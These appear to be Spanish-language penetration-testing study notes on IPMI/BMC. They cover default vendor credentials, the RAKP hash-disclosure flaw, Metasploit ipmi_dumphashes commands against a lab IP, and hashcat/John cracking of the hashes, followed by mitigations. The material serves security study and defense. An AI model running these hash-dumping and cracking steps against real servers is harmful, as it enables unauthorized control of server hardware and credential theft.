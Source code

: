 # IPMI (Intelligent Platform Management Interface)

## Descripción
- Conjunto de especificaciones estandarizadas para **gestión y monitorización remota** de hardware.
- Funciona **independientemente de BIOS, CPU, SO o firmware**.
- Permite administrar sistemas incluso:
  - Antes de que el SO arranque (BIOS settings).
  - Cuando el host está apagado.
  - Tras un fallo del sistema.
- Ofrece funciones de:
  - Monitorización de temperatura, voltajes, ventiladores, PSU.
  - Logs de hardware.
  - Alertas vía SNMP.
  - Actualizaciones remotas.
- Requiere:
  - **BMC (Baseboard Management Controller)**: microcontrolador en la placa.
  - **IPMB / ICMB / IPMI Memory / Interfaces de comunicación** (LAN, serial, PCI).

## Características clave
- Acceso ≈ **acceso físico al servidor**.
- Soportado por más de 200 vendors (Dell, HP, Cisco, Supermicro…).
- Protocolos comunes:
  - Web management console.
  - CLI remoto (Telnet, SSH).
  - IPMI (UDP/623).

## Footprinting
- Puerto: **UDP 623 (ASF-RMCP)**.
- Comando Nmap:
  ```bash
  sudo nmap -sU --script ipmi-version -p 623 <target>
  ```
- Metasploit módulo:
  ```
  use auxiliary/scanner/ipmi/ipmi_version
  ```

## Credenciales por defecto
- **Dell iDRAC** → `root:calvin`
- **HP iLO** → `Administrator:<string aleatorio 8 chars>`
- **Supermicro IPMI** → `ADMIN:ADMIN`

⚠️ Muy comunes durante pentests internos, fácil acceso si no se cambian.

---

## Vulnerabilidad en el protocolo RAKP (IPMI 2.0)
- El proceso de autenticación **RAKP** (Remote Authenticated Key-Exchange Protocol) tiene un fallo de diseño.
- Durante la fase de autenticación:
  1. El cliente solicita autenticación para un **usuario válido**.
  2. El **BMC** responde **antes de autenticar realmente** enviando un **hash SHA1/MD5 del password** (con salt y datos de sesión).
  3. Este hash puede ser capturado por un atacante conectado al puerto **UDP/623**.
- El atacante solo necesita conocer (o adivinar) un **username válido**.
- **Impacto**: recuperación de credenciales válidas sin acceso previo → acceso al BMC = control físico remoto del servidor.

---

## Módulo Metasploit `ipmi_dumphashes`
- Ubicación: `auxiliary/scanner/ipmi/ipmi_dumphashes`.
- **Objetivo**: explotar la vulnerabilidad RAKP para extraer hashes de contraseñas.
- **Funcionamiento**:
  - Envía solicitudes de autenticación al BMC usando una lista de usuarios (`USER_FILE`).
  - El BMC responde con los hashes SHA1/MD5 de esos usuarios.
  - Los guarda en formato compatible con **Hashcat** o **John the Ripper**.
  - Puede probar contraseñas comunes automáticamente (`CRACK_COMMON true`).
- **Uso típico**:
  ```bash
  msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
  msf6 > set RHOSTS 10.129.42.195
  msf6 > set USER_FILE /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt
  msf6 > run
  ```
- **Ejemplo de resultado**:
  ```
  [+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:hashSHA1...
  [+] Hash for user 'ADMIN' matches password 'ADMIN'
  ```

---

## Crackeo de hashes IPMI

Los hashes capturados con el módulo `ipmi_dumphashes` pueden crackearse offline.

### 🔹 Hashcat
Modo para IPMI 2.0 RAKP: `-m 7300`  
```bash
# Ataque de diccionario
hashcat -m 7300 -a 0 ipmi_hashes.txt rockyou.txt

# Ataque de máscara (ejemplo: HP iLO, password de 8 caracteres con números y mayúsculas)
hashcat -m 7300 -a 3 ipmi_hashes.txt ?1?1?1?1?1?1?1?1 -1 ?d?u
```

Comando que funcionó:
```bash
hashcat -m 7300 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --username
```

Nota: Si el hash contiene usuario como `admin:hash` poner la opción --username
### 🔹 John the Ripper
```bash
# Crackeo con diccionario
john --wordlist=rockyou.txt ipmi_hashes.txt

# Crackeo incremental
john --incremental ipmi_hashes.txt
```

### 🔹 Ejemplo flujo completo
1. Extraer hashes con Metasploit:  
   ```bash
   use auxiliary/scanner/ipmi/ipmi_dumphashes
   set RHOSTS 10.129.42.195
   run
   ```
2. Guardar los hashes en un archivo (`ipmi_hashes.txt`).
3. Crackear con Hashcat o John.
4. Usar la contraseña descubierta para:
   - Acceder al **BMC web console**.
   - Acceder por **SSH/Telnet** si está habilitado.
   - Verificar **reutilización de contraseñas** en otros sistemas.

---

## Riesgo
- **Muy crítico**: acceso a un BMC equivale a control físico remoto del servidor.
- Suele explotarse en entornos internos porque muchos equipos aún tienen IPMI expuesto con:
  - Credenciales por defecto.
  - Hashes crackeables.
  - Reutilización de contraseñas en otros sistemas críticos.

## Mitigación
- Cambiar credenciales por defecto.
- Usar passwords largos y robustos.
- Segmentar la red → **nunca exponer BMC/IPMI a Internet**.
- Monitorizar intentos de acceso y revisar configuración de seguridad.
